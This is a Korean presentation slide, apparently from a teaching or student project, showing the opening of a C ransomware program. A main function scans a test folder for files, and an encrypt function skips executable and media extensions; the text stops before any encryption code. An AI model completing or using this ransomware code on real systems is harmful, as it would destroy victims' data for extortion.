

02 랜섬웨어 프로그램
-#1 암호화 프로그램
#1 파일 찾기 & 파일 암호화
#include <stdio.h>
#include <stdlib.h>
#include <Windows.h>
#include <io.h>
#pragma warning (disable :4996)

typedef struct _finddata_t FILE_SEARCH;
void findfile(char* path);
int encrypt(char *filename, char *filepath);

int main(void) {
   char path[1000] = "C:/Users/박창준/Desktop/test";
   findfile(path);
   return 0;
}

int encrypt(char *filename, char *filepath) //암호화 함수
{
   if (strstr(filename, ".exe") != 0 || strstr(filename, ".dll") || strstr(filename, ".a") || strstr(filename, ".dat") || strstr(filename, ".ocx") || strstr(filename, ".mp3") || strstr(filename, ".hwp"))
   {
      findfile(filename);
      return -1;
   }